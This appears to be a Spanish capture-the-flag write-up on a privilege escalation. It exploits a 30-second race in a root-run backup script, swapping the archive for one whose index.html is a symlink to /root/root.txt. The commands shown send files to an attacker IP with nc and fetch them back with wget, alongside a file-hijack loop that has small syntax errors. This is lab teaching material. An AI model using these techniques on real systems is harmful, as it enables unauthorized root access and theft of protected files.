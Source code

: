 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
```

Aqui vemos que no podemos hacer nada y que no tenemos possiblidad de rootear la maquina por vulnerabilidades del proprio usuario.
Tenemos que enumerar el systema.

```bash
uname -a
lsb_release -a
cd /
find \-perm -4000 2>/dev/null
cat /etc/cron
crontab -l
ls /var/spool/cron/
ls /var/spool/cron/ -l
```

Bueno aqui no se ve nada, no tenemos permissios SUID no hay nada vemos tareas cron. Pero siempre se puede ver de forma alternativa si hay tareas 
que se ejecutan a intervalo regular de tiempo.

```bash
cd /dev/shm
touch procmon.sh
chmod +x procmon.sh
nano procmon.sh
```

Aqui nos creamos el script que nos servira de monitoring de processos.

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
    old_process=$new_process
done
```

Ya podemos ver que hay una tarrea `/bin/bash /usr/sbin/backuperer` que se ejecuta a interval regular de tiempo. lo Analizamos.

```bash
cat /usr/sbin/backuperer
```

Aqui vemos un script que:

1. supprime ficheros `/var/tmp/.*` 
1. supprime el directorio `/var/tmp/check`
1. comprime todo lo que hay en `/var/www/html` como un fichero `/var/tmp/.<hash>`
1. sleep 30
1. crea un directorio `/var/tmp/check`
1. descomprime `/var/tmp/.<hash>` en `/var/tmp/check`
1. controla si hay una differencia entre el contenido del hash y `/var/www/html`
1. si hay differencias, reporta los cambios en el fichero `/var/backup/onuma_backup_error.txt`

La vulnerabilidad de este script reside en el sleep de 30 secundos que nos permitiria borrar el fichero comprimido `.<hash>` y meter
otro comprimido. Como supponemos que es **root** que ejecuta la tarea, podemos approvechar de esto para ver la flag de root.

#### Modificacion del comprimido {-}

1. Creamos un comprimido de `/var/www/html`

    ```bash
    cd /dev/shm
    tar -zcvf comprimido.tar /var/www/html
    ```

1. Preparamos en la maquina de attackante para recivir el comprimido

    ```bash
    nc -nlvp 443 > comprimido.tar
    ```

1. Enviamos el comprimido desde la maquina victima

    ```bash
    nc 10.10.14.8 443 < comprimido.tar
    ```

Ahora que tenemos el comprimido en la maquina de attackante, vamos a cambiar su contenido

1. descomprimimos el ficher `.tar`

    ```bash
    tar -xf comprimido.tar
    ```

1. Modificamos el ficher `index.html`

    ```bash
    cd var/www/html
    rm index.html
    ln -s -f /root/root.txt index.html
    ```

1. creamos un nuevo comprimide

    ```bash
    cd ../../..
    tar -zcvf comprimido.tar var/www/html
    ```

1. enviamos el comprimido a la maquina victima

    - en la maquina de attackante

        ```bash
        python3 -m http.server 80
        ```

    - en la maquina victima

        ```bash
        wget http://10.10.14.8/comprimido.tar
        ```

1. creamos un script para ejecutar el secuestro

    ```bash
    touch tehijackeolavida.sh
    chmod +x tehijackeolavida.sh
    nano tehijackeolavida.sh
    ```

    que contiene

    ```bash
    #!/bin/bash

    while true; do
        filename=$(ls -ls /var/tmp/ | awk 'NF{print $NF}' | grep -oP '^\..*[a-f0-9]')

        if [ $filename ]; then
            ehco -e "\n[+] El nombre de archivo es $filename\n"
            rm /var/tmp/$filename
            cp comprimido.tar /var/tmp/$filename
            echo -e "\n[+] Archivo hijiackeado con exito\n"
            exit 0
    done
    ```

1. Ejecutamos el script 

    ```bash
    ./tehijackeolavida.sh
    ```

Cuando la pantalla nos muestre el mensaje `[+] Archivo hijackeado con exito`, podemos mirrar el fichero `/var/backup/onuma_backup_error.txt` 
y 30 segundos mas tarde tendriamos que ver la flag.

```bash
while true; do cat /var/backup/onuma_backup_error.txt ; sleep 1; clear; done
```

Ya podemos ver la flag.

### Rootear la maquina de verdad {-}

Podríamos crear un binario en C con SUID para que lo deposite root en html, lo que nos permitiria rootear la maquina.